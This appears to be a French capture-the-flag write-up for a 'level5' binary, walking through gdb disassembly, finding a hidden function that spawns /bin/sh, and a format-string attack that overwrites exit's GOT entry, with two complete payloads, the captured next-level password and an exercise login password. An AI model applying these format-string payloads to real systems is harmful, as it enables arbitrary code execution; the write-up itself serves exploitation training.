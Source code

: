 On se connecte sur le level5, ou se trouve un **binaire** <code>level5</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level5 -q
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
(gdb) > disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```
En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```
On trouve une fonction **o** non-utilisé dont l'adresse est **0x080484a4**:

```gdb
(gdb) > disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
On va donc chercher à overflow sur le printf dans **n** pour pouvoir arriver sur **o** qui lancera un <code>/bin/sh</code>.

On cherche l'**offset** :
<pre><code>
> python -c 'print "AAAA" + "|%08x" * 4' | ./level5
AAAA|00000200|b7fd1ac0|b7ff37d0|41414141
</code></pre>
>Ici 4

On cherche ensuite l'adresse d'**exit**:
```gdb
(gdb) > disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```
> Ici 0x8049838

On vérifie qu'on arrive à modifier l'adresse:
<pre><code>
> python -c 'print "\x38\x98\x04\x08" + "%4$08n"' > /tmp/payload3
(gdb) > -q level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) > set disassembly-flavor intel
(gdb) > disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) >  b * 0x080484f3
Breakpoint 1 at 0x80484f3
(gdb) >  b * 0x080484ff
Breakpoint 2 at 0x80484ff
(gdb) > run < /tmp/payload3
Starting program: /home/user/level5/level5 < /tmp/payload3

Breakpoint 1, 0x080484f3 in n ()
(gdb) > disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
(gdb) continue
Continuing.
8�

Breakpoint 2, 0x080484ff in n ()
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x00000004
</code></pre>
> D'un breakpoint à l'autre (entre printf et exit) la valeur a bien été modifée.

## Résolution 1

Notre objectif étant **0x080484a4** on lui soustrait la valeur déjà existante dans exit on obtien la taille de champ a ajouter.
```gdb
(gdb) > p 0x080484a4 - 4
$1 = 134513824
```

<pre><code>
> (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$08n"'; cat) | ./level5
...
cd ../level6 && cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
</code></pre>

Cependant le résultat n'apparait pas avant un long moment (affichage des 134.513.824 espaces) c'est pourquoi une deuxième façon de faire est plus pratique.

## Résolution 2
Pour simplifier et afficher moins de taille de champ, on coupe l'adresse en 2 parties.
```
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) quit
0x08           04           83           d6
0x0x804983b    0x804983a    0x8049839    0x8049838
```
Les parties sont :
<pre><code>0x804983a: 0x0804
0x8049838: 0x83d6 
</code></pre>
L'objectif étant **0x080484a4** soit **0x0804 | 0x84a4**, seule la 2ème partie a besoin d'être modifée.
On essaie à nouveau de modifier la valeur mais partie par partie:
<pre><code>python -c 'print "\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%4$hn" + "%5$hn"' > /tmp/test
(gdb) > run < /tmp/test
Starting program: /home/user/level5/level5 < /tmp/test

Breakpoint 1, 0x080484f3 in n ()
(gdb) > disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
(gdb) > continue
Continuing.
8:�

Breakpoint 2, 0x080484ff in n ()
(gdb) > x/x 0x8049838
0x8049838 <exit@got.plt>:	0x00080008
</code></pre>
Les partie sont modifiées et initialisées à 8 on calcule donc la différence avec l'objectif et on applique.
```gdb
(gdb) > p 0x84a4 - 0x8
$1 = 33948
```
Auquel il faut rajouter 4 si on ne met pas la premiere partie dans la commande.
<pre><code> > (python -c 'print "\x38\x98\x04\x08" + "%33952d" + "%4$hn"'; cat) | ./level5
cd ../level6 && cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
</code></pre>

For download :
<pre><code>scp -P4242 level5@IP:level5 .</code></pre>
> Password : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
